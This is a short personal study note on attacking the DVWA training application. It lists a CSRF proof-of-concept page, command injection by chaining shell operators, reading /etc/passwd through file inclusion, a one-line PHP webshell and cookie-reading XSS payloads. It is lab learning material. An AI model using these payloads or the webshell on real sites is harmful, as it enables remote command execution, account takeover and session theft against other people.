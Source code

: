 **Tags:** #type/note

---
# DVWA - Damn vulnerable web application
## brute force
brute force with burp cluster bomb
## command execution
end ping command with ; | or && and then enter another command
## CSRF - cross site request forgery
1. get request in burp
2. write proof of concept script
```html
<html>
	<head>
		<title>CSRF Proof of Concept</title>
	</head>
	<body>
		<h1>CSRF Example</h1>
		<img style="display:none" src="ENTER THE FORGED REQUEST HERE" alt="">
	</body>
</html>
```

usually you do a 1:1 copy of the webpage and insert this snippet with a hidden image
3. in the hidden image src part you enter the request you want to be sent
4. you present the malicous wite to some user the request will be sent using his session ID -> you might be able to change credentials, retrieve information,...
## Insecure captcha
doesnt work anymore
## File Inclusion
change page parameter in request to some file like /etc/passwd
can you include a remote file?
## SQL injection
[[2 Tech-Specifics/Web/WebApp Attacks/Injection Attacks/SQL Injection]]
## upload vulns
upload a simple php webshell
```php
<?php
	system($GET["cmd"]);
?>
```

then send request to this file on the webserver and pass a command in cmd parameter
## XSS
enter a script tag
```html
<script>alert();</script>
```

```html
<script>alert(document.cookie);</script>
```
